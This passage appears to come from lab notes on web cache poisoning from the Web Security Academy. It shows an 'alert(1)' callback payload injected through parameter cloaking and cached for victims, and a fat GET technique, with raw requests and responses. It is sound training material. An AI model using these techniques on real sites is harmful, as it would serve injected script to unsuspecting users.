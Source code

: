 ```bash

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

So now we need to remove cache buster (our Origin header) make the req again and when the victim visits:
```bash
GET /js/geolocate.js?callback=setCountryCookie
```
They'll get:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 3
X-Cache: hit
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

It works like that because the caching server does not include `utm_content` query param in it's cache key. Now since we added `;` separator, the caching server reads the second `callback` query param as part of `utm_content` and it ignores it, but the origin backend server actually treats `;` as a separator of query params and therefore the value of the second `callback` query param is reflected in the response

### Exploiting fat GET support
In select cases, the HTTP method may not be keyed. This might allow you to poison the cache with a POST request containing a malicious payload in the body. Your payload would then even be served in response to users' GET requests. Although this scenario is pretty rare, you can sometimes achieve a similar effect by simply adding a body to a GET request to create a "fat" GET request:
```bash
GET /?param=innocent HTTP/1.1
…
param=bad-stuff-here
```

In this case, the cache key would be based on the request line, but the server-side value of the parameter would be taken from the body. 

### PRACTITIONER Lab: Web cache poisoning via a fat GET request
This is not a properly described lab, for understanding read previous labs
There's a request and the value of `callback` is reflected in the response html page
```bash
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a69001303f537fb834e709600a0004b.web-security-academy.net
```
Response:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 201

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
```